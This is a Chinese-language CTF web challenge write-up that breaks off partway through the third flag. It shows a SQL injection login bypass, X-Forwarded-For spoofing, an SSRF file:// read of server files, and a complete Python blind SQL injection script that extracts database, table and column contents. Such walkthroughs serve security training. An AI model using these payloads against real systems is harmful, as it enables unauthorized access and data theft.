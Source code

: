 ## 信息收集

使用御剑扫到这几个页面

![image-20240704191915046](https://s2.loli.net/2024/07/04/cOrQI43z8LRs2NK.png)

## flag1

```
flag1{17013e65-4e6f-b9f6-a308-ce3878e8212c}
```



### 1.flag1前半段

**知识点：万能密码**

在登录页面使用外能密码`admin' or 1=1 #`，可以成功登录

登录成功后进入到个人信息页得到flag1的前半段

![image-20240704175315716](https://s2.loli.net/2024/07/04/aUCn1OyVNis6H7L.png)

### 2.flag1的后半段

**知识点：SSRF，XFF绕过，文件读取**

1.根据前面的信息收集到的页面，访问url/flag.php，提示***我不接受来自外部的IP***,明显是XFF绕过，伪造XFF头`X-Forwarded-For:127.0.0.1`发送请求包得到新提示

![image-20240704192515776](https://s2.loli.net/2024/07/04/53G6hWCzBEVSMtc.png)

2.根据这里提示需要用get方法请求一个参数，另外这里的curl请求失败，推测为SSRF，这里传参利用file协议可以进行文件读取:`?request=file:///var/www/html/flag.php`

![image-20240704215719296](https://s2.loli.net/2024/07/04/E91kBglOvfiAXrm.png)

3.既然可以文件读取了，那我们试着读一下**user.php**的源码

![image-20240704220011668](https://s2.loli.net/2024/07/04/BGo2Pq1DbsMUwKN.png)

成功读取到两段flag

## flag2

**考点：sql 盲注**

### 1.经过测试发现，登录页还有sql盲注

![image-20240704164920404](https://s2.loli.net/2024/07/04/ndljypiWNKL3Uc6.png)



如果使用admin登录的话，

拼接的sql语句如果为真,就会响应**'管理员请从管理员登陆界面登陆！'**

如果为假就会响应**'账号或密码错误！'**

![image-20240704173612008](https://s2.loli.net/2024/07/04/shTkL3EyjH1gCwK.png)

这里可以构造语句注出我们想要的内容

```
admin' and ascii(substr((select database()),1,1))=99# 爆出数据库名第一个字符为c
```



### 2.sql盲注爆出flag2

通过判断响应包，我们可以写一个脚本爆出数据库名，表，字段，最后爆出flag2

贴上自己搓的脚本，写完了才发现其实sqlmap跑的更快。。。。

```
#exp2.py
import requests
import time
url = 'http://116.205.174.242:11451/login.php'
data = {"username":"",
        "password":"123",
        }
result=''

flag='管理员请从管理员登陆界面登陆！'


def GetDBName(url):
    DBName = ''
    print("开始获取数据库名长度...")
    length = 0
    for l in range(1,99):
        data["username"] = f"admin' and length((select database()))={l}#"
        r1= requests.post(url,data=data)
        if flag in r1.text:
            print("数据库名长度为："+str(l))
            length = l
            break
    print("开始获取数据库名...")
    for i in range(1, length + 1):
        for j in range(33,127):
            data["username"] = f"admin' and ascii(substr((select database()),{i},1))={j}#"
            r2= requests.post(url,data=data)
            if flag in r2.text:
                DBName += chr(j)
                print(DBName)
                break
    return DBName


def GetTables(url):
    print("正在获取数据表数量")
    tnum = 0 #表数量
    t_len = 0 #表名长度
    tname = "" #表名
    for i in range(1,50):
        data["username"]= f"admin' and (select count(*)table_name from information_schema.tables where table_schema=database())={i}#"
        r1=requests.post(url,data=data)
        if flag in r1.text:
            tnum = i
            print(f"共有{i}张表")
            break
    for i in range(0,tnum):
        for n in range(1,50):
            data["username"] = f"admin' and length(substr((select table_name from information_schema.tables where table_schema=database() limit {i},1),1))={n}#"
            r2= requests.post(url,data=data)
            if flag in r2.text:
                print(f"第{i+1}张表的长度为{n}")
                t_len = n
                break
        for l in range(1,t_len+1):
            for j in range(33,127):
                data["username"] = f"admin' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {i},1),{l},1))={j}#"
                r3 =requests.post(url,data=data)
                if flag in r3.text:
                    tname += chr(j)
                    print(tname)
                    break
        tname += ','
    result_list = tname[:-1].split(",")
    return result_list

def GetData(url,TbName):
    print(f"正在获取表{TbName}的数据")
    Cname = ''#列名
    Cnum= 0 #列的数量
    Clen = 0 #列名长度
    result = ''#表中的数据
    for i in range(1, 50):
        data["username"]=f"admin' and (select count(*)column_name from information_schema.columns where table_name='flag')={i}#"
        r1 = requests.post(url, data=data)
        if flag in r1.text:
            Cnum = i
            print(f"共有{Cnum}列")
            break

    print('获取列名长度')
    for i in range(1, 50):
        data["username"]=f"admin' and (select length(column_name) from information_schema.columns where table_name ='{TbName}' limit {Cnum-1}, 1) = {i}#"
        r2 = requests.post(url, data=data)
        if flag in r2.text:
            Clen = i
            print(f"第{Cnum}列的列名长度为{Clen}")
            break

    print('获取列名字符组成')
    for i in range(1,Clen+1):
        for j in range(33,127):
            data["username"]=f"admin' and ascii(substr((select column_name from information_schema.columns where table_name = '{TbName}' limit 0,1),{i},1))={j}#"
            r3 = requests.post(url, data=data)
            if flag in r3.text:
                Cname += chr(j)
                print(Cname)
                break

    print(f'获取字段{Cname}数据......')
    for i in range(0,50):
        for j in range(33,127):
            data["username"]=f"admin' and ascii(substr((select {Cname} from {TbName} limit 0,1),{i},1))={j}#"
            #print(data)
            r4 = requests.post(url, data=data)
            if flag in r4.text:
                result += chr(j)
                break

    print(result)


GetDBName(url)
GetTables(url)
TbName='flag'
GetData(url,TbName)
```

![image-20240704163857230](https://s2.loli.net/2024/07/04/z6xU51lXG83yjoF.png)

## flag3

**知识点：文件上传**

1.因为上面做flag1的时候在 *flag.php*发现了一个ssrf漏洞，可以利用file协议读取到源码，这里我们审计其他源码，发现在*/admin/login.php*里关联了*../lib/config.php*，推测这里是存放的是一些配置信息

![image-20240705182810812](https://s2.loli.net/2024/07/05/VUYzOGp5BjgZF96.png)

2.这里我们依然用file协议读取*/lib/config.php*
